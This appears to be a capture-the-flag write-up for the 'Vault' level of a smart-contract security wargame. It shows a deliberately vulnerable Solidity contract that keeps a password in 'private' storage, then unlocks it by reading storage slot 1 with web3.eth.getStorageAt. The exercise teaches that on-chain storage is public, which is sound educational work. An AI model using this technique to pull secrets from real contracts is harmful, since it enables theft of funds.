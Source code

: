 ```yaml
---
description: reading storage slot
---
```


# 8 - Vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Goal of this level

* Make the value of `locked` to be `false`

### What you should know before

* Storage\
  \-> see [here](https://youtu.be/Gg6nt3YW74o)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

`locked` variable will be stored at slot 0,\
and `password` variable will be stored at slot 1.

You can read storage variables using `web3.eth.getStorageAt()`

</details>

We can read `slot1` and pass it as a parameter calling `unlock()`.

```javascript
> await web3.eth.getStorageAt(contract.address, 1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

> await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

Done! 😎

## Key Takeaway

* You can always read storage variables
* So make sure not to store private information!
